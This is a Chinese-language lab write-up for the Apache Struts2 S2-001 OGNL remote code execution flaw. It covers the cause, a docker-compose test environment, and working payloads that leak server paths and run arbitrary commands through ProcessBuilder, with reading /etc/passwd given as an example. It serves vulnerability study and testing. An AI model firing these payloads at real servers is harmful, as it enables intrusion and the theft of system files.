

# S2-001 远程代码执行漏洞

## 原理

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

## 环境

执行以下命令启动s2-001测试环境

```
docker-compose build
docker-compose up -d
```

## POC && EXP

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```


